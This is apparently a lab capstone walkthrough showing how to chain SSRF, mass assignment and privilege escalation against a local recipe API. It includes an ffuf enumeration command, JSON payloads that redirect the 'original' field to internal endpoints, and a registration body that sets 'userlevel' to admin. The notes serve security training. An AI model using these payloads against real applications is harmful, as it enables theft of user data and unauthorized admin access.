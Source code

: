 # 📝 Capstone Project Walkthrough: SSRF, Mass Assignment, and Privilege Escalation

---

## 🚀 High-Level Summary

This capstone project demonstrates multiple chained vulnerabilities, including **Server-Side Request Forgery (SSRF)**, **Mass Assignment**, and **Privilege Escalation**, to exploit the application's weak points. Using tools like `ffuf` for endpoint enumeration and manual API manipulation in Postman and Burp Suite, the attacker gains admin access to retrieve sensitive recipe data.

---

## 📚 Definition Bank

| **Term**                               | **Definition**                                                                                           | **Key Notes**                                                                       |
| -------------------------------------- | -------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------- |
| **SSRF (Server-Side Request Forgery)** | A vulnerability that allows an attacker to make the server fetch resources from unintended destinations. | Exploited by modifying the `original` key in a recipe to access internal endpoints. |
| **Mass Assignment**                    | Unauthorized modification of object properties by passing unexpected fields during data input.           | Exploited by adding `userlevel:admin` during registration to escalate privileges.   |
| **Privilege Escalation**               | Gaining higher-level access than permitted by exploiting vulnerabilities or misconfigurations.           | Achieved by registering as an admin and accessing admin-only resources.             |
| **ffuf**                               | A web fuzzing tool used to discover hidden endpoints or parameters in web applications.                  | Used here to find internal `uptime` and `users` actions.                            |
| **dirb/big.txt**                       | A commonly used wordlist for directory and endpoint enumeration in web applications.                     | Helps in discovering hidden endpoints during fuzzing.                               |

---

## 🌟 Key Attack Chain Steps

1. **Enumerate Endpoints with `ffuf`:**
    
    - Command used:
        
        ```bash
        ffuf -u http://localhost:3000/v1/data/internal/FUZZ -w /usr/share/seclists/dirb/big.txt
        ```
        
    - Result: Discovered `/v1/data/internal/uptime` and `/v1/data/internal/users`.
2. **Confirm SSRF Vulnerability:**
    
    - Modify the `original` key in the `PUT /v1/recipes/:id` request to point to external and internal URLs:
        
        ```json
        {
          "original": "http://google.com"
        }
        ```
        
    - Result: The server fetches Google’s HTML, confirming SSRF.
3. **Exploit SSRF for Internal Data:**
    
    - Use internal endpoints:
        
        ```json
        {
          "original": "http://localhost:3000/v1/data/internal/users"
        }
        ```
        
    - Result: Retrieve sensitive user data, including session tokens and passwords.
4. **Exploit Mass Assignment:**
    
    - Register a new user with an elevated privilege level:
        
        ```json
        {
          "username": "newuser",
          "password": "newuser",
          "userlevel": "admin"
        }
        ```
        
    - Result: Successfully create an admin user.
5. **Privilege Escalation:**
    
    - Use the admin session token to access restricted endpoints:
        
        ```json
        {
          "sessionId": "admin-session-token"
        }
        ```
        
    - Example endpoint:
        
        ```http
        GET /v1/data/admin/recipes
        ```
        

---

## 🛠️ Steps to Complete the Capstone

### Step 1: Register a New User

- Endpoint: `POST /v1/auth/register`
- Request Body:
    
    ```json
    {
      "username": "test",
      "password": "test"
    }
    ```
    

### Step 2: Decode Session Token

- Decode the Base64 session token:
    
    ```bash
    echo -n 'dGvzdGJkRW1DOQ==' | base64 -d
    ```
    
- Result: `test+random characters`.

### Step 3: Enumerate Internal Endpoints

- Use `ffuf` to enumerate possible internal actions:
    
    ```bash
    ffuf -u http://localhost:3000/v1/data/internal/FUZZ -w /usr/share/seclists/dirb/big.txt
    ```
    
- Results:
    - `/v1/data/internal/uptime`
    - `/v1/data/internal/users`

### Step 4: Confirm SSRF Vulnerability

- Endpoint: `PUT /v1/recipes/:id`
- Request Body:
    
    ```json
    {
      "original": "http://google.com"
    }
    ```
    
- Result: Response contains Google’s HTML.

### Step 5: Exploit SSRF for Sensitive Data

- Modify the `original` key:
    
    ```json
    {
      "original": "http://localhost:3000/v1/data/internal/users"
    }
    ```
    
- Result: Retrieve user-level data and session tokens.

### Step 6: Exploit Mass Assignment

- Register a new user with elevated privileges:
    
    ```json
    {
      "username": "newuser",
      "password": "newuser",
      "userlevel": "admin"
    }
    ```
    

### Step 7: Access Admin-Only Resources

- Use the admin session token to access `/v1/data/admin/recipes`:
    
    ```json
    {
      "sessionId": "admin-session-token"
    }
    ```
    

---

## 🔑 Key Takeaways

1. **SSRF**: Exploit internal server behavior to fetch unauthorized data.
2. **Mass Assignment**: Inject unauthorized fields to elevate privileges.
3. **Privilege Escalation**: Use elevated privileges to access restricted resources.
